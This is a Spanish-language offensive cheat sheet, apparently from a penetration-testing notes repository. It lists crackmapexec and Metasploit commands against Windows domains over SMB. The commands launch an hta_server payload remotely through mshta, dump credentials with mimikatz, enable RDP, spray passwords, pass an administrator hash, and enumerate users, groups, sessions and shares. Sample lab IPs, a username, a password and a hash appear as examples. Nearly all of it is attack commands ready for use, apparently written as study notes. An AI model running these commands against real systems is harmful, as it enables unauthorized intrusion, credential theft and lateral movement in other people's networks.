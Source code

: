 ```bash

# Obteniendo sesión con módulo hta_server
msfconsole
search hta_server
use 0
exploit
Copiar URL

crackmapexec smb <IP> -u '<usuario>' -p '<contraseña>' -x 'mshta.exe <pega_aqui_URL>'


# Usando mimikatz a traves de crackmapexec
crackmapexec smb <IP> -u '<usuario>' -p '<contraseña>' -M mimikatz


# Usando módulo de rdp de crackmapexec para habilitarlo
crackmapexec smb <IP> -u '<usuario>' -p '<contraseña>' -M rdp -o ACTION=enable


# Obteniendo política de contraseñas con crackmapexec
crackmapexec smb <IP> -u '<usuario>' -p '<contraseña>' --pass-pol


# Aplicando Password Spraying a lista de usuarios y usando lista de contraseñas
crackmapexec smb <IP> -u <wordlist_usuarios> -p '<wordlist_contraseñas>' --no-bruteforce --continue-on-success


# Aplicando Password Spraying (Aquí aplica un filtro para solo mostrar los logins exitosos, pero CUIDADO porque no siempre es exitoso el filtro)
crackmapexec smb <IP> -u <wordlist_usuarios> -p '<contraseña>' --no-bruteforce | grep +


# Aplicando password spraying para probar hash de admin en una red interna
crackmapexec smb <IP> --local-auth -u '<usuario>' -H '<Hash>'
Ej: crackmapexec smb 172.16.5.0/23 --local-auth -u administrator -H 88ad09182de639ccc6579eb0849751cf

Nota: --local-auth se usa cuando se ataca una cuenta local de un Active Directory o para autenticación de Windows


# Enumeración de usuarios, Ojito con el badPwdCount
crackmapexec smb <IP> -u '<usuario>' -p '<contraseña>' --users
Ej: crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users


# Enumeración de grupos
crackmapexec smb <IP> -u '<usuario>' -p '<contraseña>' --groups
Ej: crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups


# Probando si nuestro usuario esta en otras máquina/servidores
crackmapexec smb <IP> -u '<usuario>' -p '<contraseña>' --loggedon-users
Ej: crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users


# Ver los recursos compartidos del SMB
crackmapexec smb <IP> -u '<usuario>' -p '<contraseña>' --shares
Ej: crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares


# Usando ataque para analizar contenido de recursos compartidos, genera un json que puedes analizar
```